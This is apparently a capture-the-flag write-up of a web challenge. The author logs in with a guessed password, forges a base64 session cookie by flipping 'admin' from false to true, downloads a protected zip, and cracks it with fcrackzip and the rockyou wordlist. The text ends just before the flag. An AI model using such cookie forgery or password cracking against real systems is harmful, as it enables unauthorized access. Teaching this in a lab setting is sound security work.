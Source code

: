 Ok! `computer` is the password. Full request and response:

**Request:**
```
POST /secure-login HTTP/1.1

username=access&password=computer
```
```
HTTP/1.1 302 Found
Set-Cookie: securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D; expires=Thu, 17-Dec-2020 01:12:59 GMT; Max-Age=3600; path=/secure-login
```

URL decoded, the cookie we get is `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`. Let's put this in the browser as the value for a `securelogin` cookie, and see what happens when we refresh.

{F1134441}

We are logged in now! Still, looks like this user isn't able to see very much. The cookie we set was base64 encoded, let's decode it to see if we can find anything interesting.

Decoded, we get `{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}`. Well, `admin` being `false` doesn't do it for me. Let's make our own cookie with admin rights. 

```js
{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}
// Apply base64
eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQ==
```

Ok, let's toss our superior cookie into the browser and refresh.

{F1134438}

Obviously we are going to need to see what is in this zip file that isn't for us.

```sh
$ unzip my_secure_files_not_for_you.zip 
Archive:  my_secure_files_not_for_you.zip
[my_secure_files_not_for_you.zip] xxx.png password:
```

Another password! Let's try attacking it with the common passwords wordlist we used before:
```sh
$ fcrackzip -b -D -p rockyou.txt -u my_secure_files_not_for_you.zip

PASSWORD FOUND!!!!: pw == hahahaha
```

Great password. When we type it in we are greeted by two files:

1. **xxx.png**

    {F1134483}

...not sure what to make of that.

2. **flag.txt**
   